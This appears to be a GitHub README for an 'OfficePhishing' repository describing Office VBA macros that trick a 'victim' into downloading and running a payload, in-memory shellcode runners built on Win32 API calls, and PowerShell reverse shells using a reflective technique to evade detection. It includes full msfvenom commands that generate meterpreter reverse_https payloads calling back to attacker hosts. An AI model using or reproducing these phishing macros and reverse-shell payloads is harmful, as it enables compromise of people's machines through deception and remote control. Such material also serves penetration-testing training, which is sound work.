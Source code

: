 Basic phishing to auto download our payload than auto execute using vba

phish.vba


Remember to pretext our victim
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/5683bbc3-0abb-40a1-9e22-69a2ce8f080f)

Intermediate rce via phishing by running executed shellcode in memory by using three Win32 APIs from Kernel32.dll:  
VirtualAlloc_, RtlMoveMemory, and _CreateThread

runner.vba

Will exit when you close office 
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/ee96d583-50fa-4ff8-ad86-677e35bb54f5)

msfvenom -p  windows/meterpreter/reverse_https lhost=10.10.11.135 lport=443 EXITFUN=thread -f vbapplication


run.ps1 and auto.vba(download and execute run.ps1 from word)
using powershell to call win32 api to execute reverse shell 
To prevent termination added wait forever 
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/16262bf9-823f-4ef6-a482-64ecb68ecbf8)


run2.ps1 and auto.vba
Without calling the add-type function and using reflective technique to evade. 
msfvenom -p windows/meterpreter/reverse_https LHOST=172.22.10.85 LPORT=443 EXITFUNC=thread -f ps1
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/b59c891f-c500-4bd2-9885-ab7af799c861)
